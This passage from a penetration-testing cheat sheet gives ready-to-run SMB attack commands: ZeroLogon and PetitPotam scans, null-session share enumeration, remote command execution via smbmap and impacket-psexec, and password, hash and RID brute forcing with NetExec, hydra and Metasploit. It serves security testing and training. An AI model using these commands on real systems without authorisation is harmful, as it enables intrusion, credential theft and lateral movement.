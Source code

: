 ```sh
# With Kerberos authentication
nxc smb <target-ip> -k --users

# -M zerologon: Scan for ZeroLogon
# -M petitpotam: Scan for PetitPotam
nxc smb <target-ip> -u '' -p '' -M zerologon -M petitpotam
```

### Find Shared Folders
```sh
# -N: No password
# -L: List shared directories
smbclient -N -L <target-ip>
smbclient -L <target-ip> -U username

smbmap -H <target-ip>

# Recursive
smbmap -H <target-ip> -R

# Username and password
smbmap -u username -p password -H <target-ip>

# Execute a command
smbmap -u username -p password -H <target-ip> -x 'ipconfig'

nxc smb <target-ip> -u '' -p '' --shares
nxc smb <target-ip> -u 'DoesNotExist' -p '' --shares 
nxc smb <target-ip> -u username -p password --shares

impacket-psexec example.local/username@<target-ip>
```

### Brute Force Credentials
```sh
nxc smb <target-ip> -u username -p passwords.txt --continue-on-success
nxc smb <target-ip> -u usernames.txt -H ntlm_hashes.txt --continue-on-success

hydra -l username -P passwords.txt <target-ip> smb
hydra -L usernames.txt -p password <target-ip> smb

# RID Brute Force
nxc smb <target-ip> -u username -p password --rid-brute 20000

# Using Metasploit
msfconsole
msf> use auxiliary/scanner/smb/smb_login
```

If we find credentials, we can use them for **smbclient** or **WinRM**.  
If we got **"STATUS_PASSWORD_MUST_CHANGE"** for some users, we can update a current password to a new one.
